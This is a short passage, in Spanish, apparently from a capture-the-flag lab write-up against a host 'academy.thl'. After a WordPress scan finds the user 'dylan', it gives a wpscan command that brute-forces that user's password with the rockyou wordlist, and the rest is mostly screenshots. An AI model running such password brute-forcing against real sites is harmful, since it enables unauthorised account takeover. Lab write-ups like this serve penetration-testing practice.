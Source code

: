 ![](img/Pasted%20image%2020241227201324.png)



No encontró puglins instalados pero si usuario. `dylan`. Ahora con la misma herramienta vamos a realizar fuerza bruta para intentar conseguir la contraseña
```
wpscan --url http://academy.thl/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames dylan
```

![](img/Pasted%20image%2020241227201621.png#center)
![](img/Pasted%20image%2020241227201647.png#center)
